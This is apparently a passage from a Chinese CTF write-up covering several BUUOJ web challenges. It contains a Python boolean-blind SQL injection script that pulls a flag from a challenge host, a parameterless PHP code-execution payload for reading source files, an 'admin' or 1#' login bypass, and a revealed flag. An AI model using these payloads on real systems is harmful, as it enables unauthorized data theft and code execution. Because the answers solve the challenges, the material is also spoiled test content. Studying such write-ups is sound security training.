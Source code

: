然后登陆admin



## [CISCN2019 华北赛区 Day2 Web1]Hack World

绕一下空格，布尔盲注

```python
import requests
url = 'http://1401d5e8-82c2-4f85-b8ea-822ffa8c6116.node3.buuoj.cn/index.php'
flag = ''
for x in range(1, 100):
	high = 127
	low = 32
	mid = (low + high) // 2
	while high > low:
		payload = 'if(ascii(substr((select\tflag\tfrom\tflag),{},1))>{},1,2)'.format(x, mid)
		data = {'id':payload}
		r = requests.post(url, data = data)
		if 'Hello' in r.text:
			low = mid + 1
		else:
			high = mid
		mid = (low + high) // 2
	flag += chr(int(mid))
	print(flag)
	if flag.endswith('}'):
		break
```





## [GXYCTF2019]禁止套娃

githack拿源码

无参RCE

```
?exp=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```



### [极客大挑战 2019]EasySQL

```
admin' or 1#
```

### [极客大挑战 2019]Havefun

f12

```
                <!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
```

